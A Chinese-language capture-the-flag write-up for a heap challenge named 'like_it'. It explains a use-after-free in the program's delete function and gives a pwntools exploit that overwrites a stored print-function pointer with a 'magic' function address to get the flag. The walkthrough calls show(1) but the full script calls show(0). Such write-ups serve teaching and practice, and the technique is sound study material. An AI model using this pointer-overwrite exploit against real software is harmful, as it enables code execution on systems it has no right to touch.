

# like_it


一道菜单题，方便起见，分别把1到3的函数称为add，delete，show，首先查看一下add函数


分析一下不难发现，函数的主要逻辑是遍历notelist链表，如果链表某个节点为空那么就在该处申请0x10大小的堆块，接着将print函数的地址存储到堆块的user data的前8字节区域(前面有0x10大小的chunk_header)，然后输入接下来申请堆块的大小，接着在user data+8字节处再申请一个堆块，最后read将用户输入的内容读入到其中

delete函数



可以看到delete函数中free了两次，但都没有将相应的指针清零，构成UAF漏洞可以利用

show函数


输入堆块索引，调用堆块中存储的print函数

程序还给了magic函数


以上为主要函数逻辑

利用思路：

可以利用delete函数中的UAF漏洞进行利用，先申请两个大堆块(执行两次add函数，实际上堆块中包含堆块，一共4个)把第一个大堆块称为chunk0，第二个称为chunk1，申请chunk0中堆块时，内容可以随便输入，大小可为0x18,0x20,0x28...，但不能为0x10，否则后面利用UAF的时候就无法申请到print函数所在堆块的位置，不能对其进行修改，同样chunk1也不能申请0x10的堆块

```
from pwn import*

context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2055)
p=process('./like_it')


def add(size,content):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Note size :')
    p.sendline(str(size))
    p.recvuntil(b'Content :')
    p.sendline(content)

def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

def show(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

p.recvuntil(b'Hi! What do you like?')
p.sendline(b'hi,everyone')

magic=0x400cB5

add(0x20,b'aaa')#chunk0
add(0x20,b'bbb')#chunk1
```

这道题比较少见，有个def函数，里面禁用了gdb的调试功能，导致无法调试，没办法展示调试过程了。。。

然后再把申请的两个chunk给free掉，此时4个chunk中的两个0x20，两个0x30(包含了chunk_head)全处于释放状态，且位于fastbin中的0x20和0x30链表中

```
delete(1)
delete(0)
```

这里释放的顺序需要注意下，由于fastbin是单项链表，遵循先进后出的原理，所以此时两个0x20大小的free_chunk状态是

chunk0->chunk1

接下来再把两个0x20大小的chunk申请回来，add函数中第一个已经帮我们申请了0x10(chunk0)，只要在申请0x10大小(chunk1)就能申请回来，那么此时的chunk0和chunk1都指向print所在位置，且chunk1可以让我们进行修改，把它改为magic，然后再调用show(1)，执行magic拿到flag

```
add(0x10,p64(magic))
show(1)
```

完整exp

```
from pwn import*

context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2055)
p=process('./like_it')


def add(size,content):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Note size :')
    p.sendline(str(size))
    p.recvuntil(b'Content :')
    p.sendline(content)

def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

def show(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

p.recvuntil(b'Hi! What do you like?')
p.sendline(b'hi,everyone')

magic=0x400cB5

add(0x20,b'aaa')#chunk0
add(0x20,b'bbb')#chunk1
delete(1)
delete(0)
add(0x10,p64(magic))
show(0)
p.interactive()
```


